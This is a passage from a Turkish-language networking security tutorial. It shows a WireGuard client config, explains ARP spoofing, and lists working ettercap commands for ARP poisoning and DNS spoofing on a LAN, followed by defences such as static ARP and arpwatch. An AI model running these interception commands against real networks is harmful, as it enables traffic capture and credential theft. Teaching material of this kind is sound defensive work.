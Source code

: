**Client Konfigürasyonu**:
```ini
# client.conf

[Interface]
PrivateKey = CLIENT_PRIVATE_KEY
Address = 10.0.0.2/24
DNS = 8.8.8.8

[Peer]
PublicKey = SERVER_PUBLIC_KEY
Endpoint = your-server-ip:51820
AllowedIPs = 0.0.0.0/0
PersistentKeepalive = 25
```

---

## ⚔️ Ağ Saldırı Türleri

### 🎭 ARP Spoofing/Poisoning

**Saldırı Prensibi**:
```
Normal ARP:
1. Host A: "192.168.1.1'in MAC adresi nedir?" (Broadcast)
2. Router: "192.168.1.1 benim, MAC: aa:bb:cc:dd:ee:ff"

ARP Spoofing:
1. Host A: "192.168.1.1'in MAC adresi nedir?" (Broadcast)
2. Saldırgan: "192.168.1.1 benim, MAC: 11:22:33:44:55:66" (Sahte)
3. Host A: Trafiği saldırgana gönderir
```

**Ettercap ile ARP Spoofing**:
```bash
# Hedefleri tarama
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100//

# Tüm ağı hedef alma
ettercap -T -M arp:remote /192.168.1.1// //

# DNS spoofing ile birlikte
ettercap -T -M arp:remote -P dns_spoof /192.168.1.1// //
```

**Korunma Yöntemleri**:
```bash
# Statik ARP tablosu
arp -s 192.168.1.1 aa:bb:cc:dd:ee:ff

# ARP monitoring
arpwatch -i eth0

# Switch port security
switchport port-security
switchport port-security mac-address sticky
```
